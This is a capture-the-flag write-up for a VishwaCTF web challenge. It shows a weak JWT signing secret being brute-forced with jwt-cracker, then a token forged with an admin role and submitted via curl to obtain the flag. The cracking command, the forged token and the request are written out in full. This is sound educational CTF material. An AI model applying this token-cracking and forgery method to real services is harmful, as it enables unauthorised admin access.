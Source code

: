 

# Challenge description

Yet another API for ‘user’ signup and login. You know the drill, GO! https://k33p-y0ur-53cr3t5.vishwactf.com/

-----------------------------------------------------------

In this challenge we have two endpoints. one of which is used by an admin . the goal is to become admin thru the jwt cookie we get with the signup endpoint

![image](https://user-images.githubusercontent.com/58823465/159310066-28918484-ca32-41cc-b0a7-8cb28003f53a.png)


Using jwt-cracker we can crack the token

``` 
jwt-cracker abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidXNlciIsImlhdCI6MTY0Nzc4ODI2Mn0.Py60wfbnD7sDP6ygXlV7q5TOHIDzGmzOxWRHdWYVeCc
``` 

![image](https://user-images.githubusercontent.com/58823465/159310168-387fb591-8a22-4285-bb06-3c2b53c77202.png)


this took a while but we found eventually the key used : ` "owasp" ` 

Now we just need to craft a new cookie and send up and access the /api/login/user endpoint

```
curl -X POST https://k33p-y0ur-53cr3t5.vishwactf.com/api/login/user -H "token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NDc3ODgyNjJ9.uu3NUzQOkwzACFnCmHVnqljT7_Xv_ko2ND8x0pbQPqA"
```

and we get the flag !

![image](https://user-images.githubusercontent.com/58823465/159310616-f5c9f748-0628-479f-9a6d-6aee642d74ec.png)


``` Flag : vishwaCTF{w3@k_$ecr3t$} ```
